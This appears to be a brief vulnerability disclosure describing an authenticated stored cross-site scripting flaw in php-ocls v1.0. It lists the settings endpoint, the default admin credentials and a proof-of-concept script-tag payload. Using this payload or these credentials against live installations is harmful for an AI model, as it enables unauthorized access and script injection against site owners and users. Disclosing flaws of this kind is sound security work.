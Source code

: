 # php-ocls<=v1.0 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    php-ocls<=v1.0 /php-ocls/classes/SystemSettings.php?f=update_settings interface has a verified xss vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. System Information Settings

   input

   ```
   /><script>alert(1);</script>
   ```

| ![image-20240816165315627](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Stored20Cross-Site Scripting(XSS).assets/image-20240816165315627.png) |
| ------------------------------------------------------------ |

submit

| ![image-20240816165359397](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary20Stored20Cross-Site Scripting(XSS).assets\image-20240816165359397.png) |
| ------------------------------------------------------------ |

